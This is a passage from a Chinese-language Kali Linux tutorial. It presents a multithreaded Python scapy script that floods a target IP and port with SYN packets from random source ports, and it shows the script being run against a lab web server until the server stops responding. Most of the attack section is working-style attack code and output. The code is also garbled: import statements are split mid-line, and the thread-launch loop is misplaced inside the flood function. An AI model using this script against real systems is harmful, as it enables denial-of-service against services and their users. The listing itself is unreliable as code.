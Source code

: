 SYN 泛洪的效率取决于在给定时间段内可以生成的 SYN 请求的数量。 为了提高这个攻击序列的效率，我写了一个多线程脚本，可以执行可由攻击系统处理的，尽可能多的 SYN 数据包注入的并发进程：

```
#!/usr/bin/python

from scapy.all 
import * from time 
import sleep 
import thread 
import random 
import logging 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

if len(sys.argv) != 4:   
    print "Usage - ./syn_flood.py [Target-IP] [Port Number] [Threads]"   
    print "Example - ./sock_stress.py 10.0.0.5 80 20"   
    print "Example will perform a 20x multi-threaded SYN flood attack"   
    print "against the HTTP (port 80) service on 10.0.0.5"   
    sys.exit()

target = str(sys.argv[1]) 
port = int(sys.argv[2]) 
threads = int(sys.argv[3])

print "Performing SYN flood. Use Ctrl+C to stop attack." 
def synflood(target,port):   
    while 0 == 0:
        x = random.randint(0,65535)      
        send(IP(dst=target)/TCP(dport=port,sport=x),verbose=0)
        
    for x in range(0,threads):   
        thread.start_new_thread(synflood, (target,port))

    while 0 == 0:   
        sleep(1) 
```

脚本在执行时接受三个参数。 这些参数包括目标 IP 地址，SYN  泛洪所发送到的端口号，以及将用于执行 SYN 泛洪的线程或并发进程的数量。 每个线程以生成 0 到 65,535 之间的整数值开始。 此范围表示可分配给源端口的全部可能值。 定义源和目标端口地址的 TCP 报头的部分在长度上都是 16 比特。 每个位可以为 1 或 0。因此，有`2 ** 16`或 65,536 个可能的 TCP 端 口地址。 单个源端口只能维持一个半开连接，因此通过为每个 SYN 请求生成唯一的源端口地址，我们可以大大提高攻击的性能：

```
root@KaliLinux:~# ./syn_flood.py U
sage - ./syn_flood.py [Target-IP] [Port Number] [Threads] 
Example - ./sock_stress.py 10.0.0.5 80 20 
Example will perform a 20x multi-threaded SYN flood attack against the HTTP (port 80) service on 10.0.0.5 
root@KaliLinux:~# ./syn_flood.py 172.16.36.135 80 20 
Performing SYN flood. Use Ctrl+C to stop attack. 
```

当在没有任何参数的情况下执行脚本时，会将使用方法返回给用户。在提供的示例中，脚本对托管在`172.16.36.135`的 TCP 端口 80 上的 HTTP Web 服务执行，具有 20 个并发线程 。脚本本身提供的反馈很少; 但是，可以运行流量捕获工具（如 Wireshark 或 TCPdump）来验证是否正在发送连接。在非常短暂的时间之后，与服务器的连接尝试会变得非常慢或完全无响应。

